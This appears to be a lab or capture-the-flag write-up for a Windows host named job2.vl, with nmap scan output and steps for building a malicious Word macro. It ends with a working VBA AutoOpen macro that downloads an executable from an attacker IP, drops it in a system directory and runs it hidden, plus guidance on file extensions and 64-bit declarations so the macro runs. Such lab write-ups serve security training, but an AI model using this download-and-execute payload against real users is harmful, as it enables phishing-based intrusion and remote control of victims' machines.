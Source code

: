# Enumeration
```
PORT      STATE SERVICE              VERSION
22/tcp    open  ssh                  OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 a3:94:77:ca:16:0e:ec:fb:23:86:67:c6:0a:e3:ca:7b (RSA)
|   256 0e:2a:31:70:94:99:5d:95:d4:f8:40:d5:b5:36:8e:88 (ECDSA)
|_  256 29:31:2a:c3:55:b2:f7:73:f2:d3:bd:bc:c5:c1:14:f0 (ED25519)
25/tcp    open  smtp                 hMailServer smtpd
| smtp-commands: JOB2, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http                 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
111/tcp   open  rpcbind
135/tcp   open  msrpc                Microsoft Windows RPC
139/tcp   open  netbios-ssn          Microsoft Windows netbios-ssn
443/tcp   open  ssl/http             Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=www.job2.vl
| Subject Alternative Name: DNS:job2.vl, DNS:www.job2.vl
| Not valid before: 2023-05-09T13:31:40
|_Not valid after:  2122-05-09T13:41:37
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
445/tcp   open  microsoft-ds?
1063/tcp  open  rpcbind
2049/tcp  open  rpcbind
3389/tcp  open  ms-wbt-server        Microsoft Terminal Services
|_ssl-date: 2024-04-06T10:06:54+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=JOB2
| Not valid before: 2024-04-05T09:19:48
|_Not valid after:  2024-10-05T09:19:48
10001/tcp open  msexchange-logcopier Microsoft Exchange 2010 log copier
10002/tcp open  msexchange-logcopier Microsoft Exchange 2010 log copier
10003/tcp open  storagecraft-image   StorageCraft Image Manager
Service Info: Host: JOB2; OS: Windows; CPE: cpe:/o:microsoft:windows

```

There is a website at www.job2.vl
![](attachment/c5948a9829051685697bf41dbf41a508.png)
Using this https://github.com/S3cur3Th1sSh1t/OffensiveVBA for macro payload
And following these guidelines:
1. Enable Developer Tools in the Ribbon Menu to gain access to macros
2. Name your Macro AutoOpen() if you are working with Word 2016+
3. Select the Current Document as the place to store the Macro
4. Don't use .docx as the file extension since it won't allow for embedded macros. Either use .doc or .docm
5. When using the 64 bit version of Microsoft Word, Declare VBA functions with "PtrSafe" to avoid compilation errors.
```VBScript
Private Declare PtrSafe Function URLDownloadToFileA Lib "urlmon" ( _
    ByVal pCaller As Long, _
    ByVal szURL As String, _
    ByVal szFileName As String, _
    ByVal dwReserved As Long, _
    ByVal lpfnCB As Long) As Long

Private Declare PtrSafe Function WinExec Lib "kernel32" ( _
    ByVal lpCmdLine As String, _
    ByVal uCmdShow As Long) As Long

Sub AutoOpen()
    URLDownloadToFileA 0, "http://10.8.0.123/rcat.exe", "C:\Windows\system32\spool\drivers\color\rcat_10.8.0.123_443.exe", 0, 0
    WinExec "C:\Windows\system32\spool\drivers\color\rcat_10.8.0.123_443.exe", SHOW_HIDE
End Sub
```